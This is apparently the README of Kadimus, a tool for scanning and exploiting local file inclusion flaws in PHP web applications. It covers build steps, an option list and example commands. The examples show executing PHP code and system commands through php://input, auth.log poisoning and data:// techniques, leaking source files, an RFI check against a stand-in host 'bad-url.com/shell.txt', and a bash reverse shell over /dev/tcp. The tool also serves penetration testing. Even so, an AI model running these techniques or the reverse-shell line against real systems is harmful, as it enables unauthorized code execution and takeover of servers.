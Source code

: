 # Kadimus
LFI Scan &amp; Exploit Tool

## Compile:
### Installing libcurl:
* CentOS/Fedora

```sh
# yum install libcurl-devel
```

* Debian based
```sh
# apt-get install libcurl4-openssl-dev
```
### Installing libpcre:
* CentOS/Fedora

```sh
# yum install libpcre-devel
```

* Debian based
```sh
# apt-get install libpcre3-dev
```

### Installing libssh:

* CentOS/Fedora

```sh
# yum install libssh-devel
```

* Debian based
```sh
# apt-get install libssh-dev
```
### And finally:
```sh
$ git clone https://github.com/P0cL4bs/Kadimus.git
$ cd Kadimus
$ make
```
## Options:
```
  -h, --help                    Display this help menu

  Request:
    -B, --cookie STRING         Set custom HTTP Cookie header
    -A, --user-agent STRING     User-Agent to send to server
    --connect-timeout SECONDS   Maximum time allowed for connection
    --retry-times NUMBER        number of times to retry if connection fails

  Scanner:
    -u, --url STRING            Single URI to scan
    -U, --url-list FILE         File contains URIs to scan
    -o, --output FILE           File to save output results
    --threads NUMBER            Number of threads (2..1000)

  Explotation:
    -t, --target STRING         Vulnerable Target to exploit
    --injec-at STRING           Parameter name to inject exploit
                                (only need with RCE data and source disclosure)

  RCE:
    -X, --rce-technique=TECH    LFI to RCE technique to use
    -C, --code STRING           Custom PHP code to execute, with php brackets
    -c, --cmd STRING            Execute system command on vulnerable target system
    -s, --shell                 Simple command shell interface through HTTP Request

    -r, --reverse-shell         Try spawn a reverse shell connection.
    -l, --listen NUMBER         port to listen

    -b, --bind-shell            Try connect to a bind-shell
    -i, --connect-to STRING     Ip/Hostname to connect
    -p, --port NUMBER           Port number to connect

    --ssh-port NUMBER           Set the SSH Port to try inject command (Default: 22)
    --ssh-target STRING         Set the SSH Host (Default: Target URI hostname)

    RCE Available techniques

      environ                   Try run PHP Code using /proc/self/environ
      input                     Try run PHP Code using php://input
      auth                      Try run PHP Code using /var/log/auth.log
      data                      Try run PHP Code using data://text

    Source Disclosure:
      -G, --get-source          Try get the source files using filter://
      -f, --filename STRING     Set filename to grab source [REQUIRED]
      -O FILE                   Set output file (Default: stdout)
```

## Examples:

### Scanning:
```
./kadimus -u localhost/?pg=contact -A my_user_agent
./kadimus -U url_list.txt --threads 10 --connect-timeout 10 --retry-times 0
```
### Get source code of file:
```
./kadimus -t localhost/?pg=contact -G -f "index.php%00" -O local_output.php --inject-at pg
```
### Execute php code:
```
./kadimus -t localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -X input
```

### Execute command:
```
./kadimus -t localhost/?pg=/var/log/auth.log -X auth -c 'ls -lah' --ssh-target localhost
```
### Checking for RFI:

You can also check for RFI errors, just put the remote url on resource/common_files.txt
and the regex to identify this, example:


```php
/* http://bad-url.com/shell.txt */
<?php echo base64_decode("c2NvcnBpb24gc2F5IGdldCBvdmVyIGhlcmU="); ?>
```

in file:
```
http://bad-url.com/shell.txt?:scorpion say get over here
```

### Reverse shell:
```
./kadimus -t localhost/?pg=contact.php -Xdata --inject-at pg -r -l 12345 -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0>&1' --retry-times 0
```
